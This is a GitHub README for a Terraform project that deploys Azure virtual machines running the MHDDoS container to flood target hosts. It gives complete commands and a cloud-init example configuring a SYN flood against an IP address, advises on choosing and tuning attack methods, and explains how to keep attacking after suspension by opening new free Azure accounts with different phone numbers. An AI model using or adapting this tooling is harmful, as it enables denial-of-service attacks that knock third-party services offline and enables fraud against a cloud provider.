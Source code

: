 >Note! You're free to use this repo a way you want but pay attention to the legal liability you may have if you use this 
configuration without compliance with your local laws
# Overview
Here I use Terraform to automate Azure VM deployment which run MHDDOS docker container.
You can deploy VMs to any Azure region, I prefer those that are located in Asia.   
- Default region - `koreacentral` (Central Korea)
- Default VM count - `4` (In free Azure subscription it's allowed only 4 vCPUs in a single region)
- Default VM SKU - `Standard_F1s` (1 vCPU, 2 GiB RAM, accelerated networking - ON, price around 0.05 USD/hour)
- Default resource group - `mhddosGroup`  

To change default values you can amend the`variables.tf` file. To customize via terminal:
```shell
terraform apply ... -var="<variableName>=<variableValue>"
```

# Prerequisites

You must have a Microsoft Azure account, it's better off using a free subscription (200 USD for 30 days).
Also, installed azure CLI and terraform tools are required. To install these tools check out the following guides:
- Azure CLI https://docs.microsoft.com/en-us/cli/azure/install-azure-cli
- Terraform https://learn.hashicorp.com/tutorials/terraform/install-cli

In general, `udp/tcp/dns` mhddos attacks
are network intensive so your free subscription will be suspended after around 24 hours of active attacks. SYN mhddos attack doesn't require many network resources thus you can use your subscription
longer.  
After your subscription is over you can register a new Microsoft account and apply for a new free Azure
subscription. The main rule here is to specify different phone number. If you have any other ideas
or real experience on creating multiple Microsoft Azure free accounts - feel free to describe this here using a pull request.

# Getting started
1. Clone this repository:

```shell
git clone https://github.com/djebos/mhddos-azure-terraform.git
```

    
OR

Download zip archive of the repository and unzip it on your 
local machine into default directory `mhddos-azure-terraform`

2. Go into the downloaded repository directory

```shell
cd mhddos-azure-terraform/
```

3. Log in Azure in the repository folder
```shell
az login
```
4. Initialize terraform
```shell
terraform init
```
5. Select target and type of attack. Open the `cloud-init.yaml` file in any text editor. Find the `runcmd` attribute.  
`docker run --name mhddos --rm -d djebos/mhddos:latest` part of command is static and must be preserved. All your 
customizations must follow this command as in example below:

```yaml
# TCP syn flood attack on ip 15.61.23.9, port 53, 100 threads, duration 999999 seconds
runcmd:
  - docker run --name mhddos --rm -d djebos/mhddos:latest syn 15.61.23.9:53 100 999999
# here 'syn 15.61.23.9:53 100 999999' is your attack configuration that fully compliant with original MHDDOS
```
More about types of supported attacks on [MHDDOS oficial page](https://github.com/MHProDev/MHDDoS)  
Save the `cloud-init.yaml` file.

6. Deploy to the specified azure region (you must be logged in through `az login`). Examples:  
```shell
terraform apply -state india.tfstate -var="location=southindia" -var="resource_group_name=mhddosIndia" -auto-approve
terraform apply -state korea.tfstate -var="location=koreacentral" -var="resource_group_name=mhddosKorea" -auto-approve
terraform apply -state japan.tfstate -var="location=japaneast" -var="resource_group_name=mhddosJapan" -auto-approve
```
7. Verify after a couple of minutes on azure portal the load of VMs' CPUs, RAM, network. CPU or RAM usage must be around 100%.  
In fact, load percentage depends on the attack method and its configuration such as proxying, threads or request per connection count. 
There isn't a silver bullet configuration and attack method that works perfectly on any target. You have to make some effort to figure out the best for every case. 
Good methods to start with: `TCP`,`UDP`, `SYN`, `GET`, `DNS`.  
8. Stop attack and destroy VMs. Examples:
```shell
terraform destroy -state india.tfstate -auto-approve
terraform destroy -state korea.tfstate -auto-approve
terraform destroy -state japan.tfstate -auto-approve
```
# Troubleshooting
Your attack could fail due to numerous reasons: wrong configuration, ip isn't reachable etc. Therefore, you 
have to connect to your VMs and figure things out. 
1. Find out the target VM's public ip through Azure Portal or using terminal
```shell
terraform output -state <your_state_file>.tfstate instancePublicIPs
```
2. Export a private key to the file:
```shell
terraform output -raw -state <your_state_file>.tfstate tls_private_key > key.pem
```
3. Add a read access to the key file:
```shell
chmod 400 key.pem
```
4. Connect via SSH:
```shell
ssh -i key.pem azureuser@<your_vm_IP>
```
5. Check a status of the `mhddos` docker container:
```shell
sudo docker ps
```